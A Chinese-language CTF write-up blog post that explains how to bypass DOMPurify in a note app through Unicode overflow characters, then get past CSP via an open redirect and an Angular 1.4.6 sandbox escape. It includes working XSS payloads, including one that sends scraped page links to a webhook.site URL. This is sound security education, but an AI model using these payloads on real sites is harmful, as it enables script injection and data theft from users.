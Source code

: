 # 从一道XSS题学习CSP绕过

  
  
&lt;!--more--&gt;  
## 0x00 解题记录  
`/create`可以创建笔记存入到数据库，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102148138.png)
`/note`可以展示笔记  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102149796.png)
但在`/create`处存在`DOMPurify`来过滤`xss`，由于是最新版无法绕过，  
需要注意到在`/note`笔记展示的地方，是利用了`ascii`来处理了字符串，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102151665.png)
这里会涉及到一个`unicode`溢出的安全问题  
举一个🌰  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102158214.png)
利用这个原理，选两个`unicode`字符来逃逸`&lt;&gt;`  
`氼`、`夾`  
来试一下，正常的解析了`&lt;&gt;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102203883.png)
构造一个payload  
```javascript  
氼script src=&#34;https://www.example.com&#34;夾alert(1);//氼/script 夾  
```  
正常触发了CSP  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102208902.png)
现在就需要绕过CSP了，利用`/redirect`接口绕过CSP即可  
```javascript  
  res.setHeader(  
    &#34;Content-Security-Policy&#34;,  
    `script-src &#39;self&#39; &#39;nonce-${nonce}&#39; &#39;unsafe-eval&#39; https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js; base-uri &#39;none&#39;; object-src &#39;none&#39;;`  
  );  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102220072.png)
还需要利用到`angular`组件，原因如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102348192.png)
在重定向只会忽略路径部分，而不会忽略URL，而CSP中又恰巧信任了`https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js`  

```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt; {{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };alert(1);//&#39;);}} &lt;/div&gt;  
```  

（这里在本地搭建了一个作为测试）  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102359533.png)
根据`bot.ts`来盗取`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110001119.png)
payload  

```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt;{{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };  
    fetch(`http://localhost:3000/`).then(res=&gt;res.text()).then(data=&gt;{ const parser = new DOMParser();  
    const doc = parser.parseFromString(data, &#34;text/html&#34;);  
    const links = Array.from(doc.querySelectorAll(&#34;a&#34;)).map(a =&gt; a.href);  
    const encodedLinks = btoa(unescape(encodeURIComponent(JSON.stringify(links))));  
    return fetch(&#34;https://webhook.site/5b154691-3fdb-46b8-980b-735e19b081f2?ans=&#34; &#43; encodedLinks, { method: &#34;GET&#34;, mode: &#34;no-cors&#34; })});//&#39;);}}&lt;/div&gt;  
```  

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110004738.png)
## Reference  
[https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows](https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows &#34;https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows&#34;)https://www.w3.org/TR/CSP3/#source-list-paths-and-redirects  
https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques  
https://csp-evaluator.withgoogle.com/  
https://github.com/Mehdi0x90/Web_Hacking/blob/main/CSP%20Bypass.md  
  
## 0x00000  
弟弟新建了一个交流群，欢迎有兴趣的师傅一起来讨论有趣的Web题
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502101949106.jpg)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E4%BB%8E%E4%B8%80%E9%81%93xss%E9%A2%98%E5%AD%A6%E4%B9%A0csp%E7%BB%95%E8%BF%87/  

